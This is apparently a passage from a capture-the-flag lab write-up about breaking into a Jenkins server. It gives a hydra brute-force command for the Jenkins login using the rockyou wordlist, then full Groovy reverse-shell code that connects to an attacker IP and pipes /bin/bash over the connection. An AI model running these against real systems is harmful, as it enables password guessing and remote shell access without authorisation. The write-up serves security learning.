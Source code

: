 We can the open jenkins from your kali machine e.g. <http://localhost:31340> and analyse the login prompt with burpsuite:

![_internal_burpsuite](_internal_burpsuite.webp)

Using the information from the intercepted post command of a failed login attempt we can build the hdyra brute-force attack:

``` sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 31340 http-post-form "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=&Submit=Sign+in:F=Invalid"
```

## Jenkins groovy reverse shell

Luckily the password is simple and cracked rather fast using the rockyou.txt. Now that we are logged in as admin in the Jenkins portal let's run [this groovy reverse shell](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) in the jenkins script conosole and just changed "cmd" to "/bin/bash" as well as IP and port and started a new netcat session on port 7777

```groovy
String host="10.9.193.173";
int port=7777;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

We now have a reverse shell as user jenkins.
